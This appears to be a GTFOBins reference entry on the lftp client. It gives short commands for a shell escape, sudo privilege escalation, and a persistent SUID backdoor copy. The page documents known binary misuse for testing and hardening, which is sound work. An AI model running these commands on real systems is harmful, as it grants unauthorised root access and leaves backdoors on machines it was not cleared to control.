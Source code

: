 # GTFOBin: lftp

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
lftp -c '!/bin/sh'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo lftp -c '!/bin/sh'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which lftp) .

./lftp -c '!/bin/sh'
```